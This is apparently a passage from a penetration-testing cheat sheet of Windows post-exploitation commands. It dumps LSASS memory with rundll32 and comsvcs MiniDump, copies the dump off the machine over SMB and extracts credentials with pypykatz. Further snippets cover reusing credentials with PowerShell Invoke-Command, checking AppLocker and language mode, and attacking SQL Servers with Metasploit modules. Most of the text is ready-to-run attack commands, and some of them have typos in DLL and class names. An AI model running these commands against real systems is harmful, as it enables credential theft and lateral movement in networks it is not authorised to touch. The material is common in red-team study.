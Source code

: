 #### Dump lsass to a file
```
Powershell rundll32.exe C:\windows\System32\comsvc.dll, MiniDump <procesid> C:\Users\lsass.dmp full
```

#### Get the file from the machine for example with smbclient
```
cd <path>
get lsass.dmp
```

#### Dump the lsass.dmp file with pypykatz
```
Pypykatz lsa minidump lsass.dmp
```

## PSRemoting
#### Save PS credentials powershell commandline only
```
$passwd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("domain\user", $passwd)
```

#### Save credentials with gui
```
$creds = Get-Credential
```

#### Use credentials with invoke-command for example
```
Invoke-command -ScriptBlock{hostname;whoami;Get-LocalGroupMember -Group Administrators} -Computer <computername> -Credential $creds
```

## Application whitelisting
#### Get current language mode
```
$ExecutionContext.SessionState.Languagemode
```

#### Check if applocker is active
```
Get-AppLockerPolicy -Effective
Get-CimInstance -Classname Win32_DeviceGaurd -Namespace root\Microsoft\Windows\DeviceGaurd
```

## Abusing SQLServers with msfconsole
```
use module mssql_login to check credentials
use mssql_login to enumerate sql
use mssql_sql to run queries
```
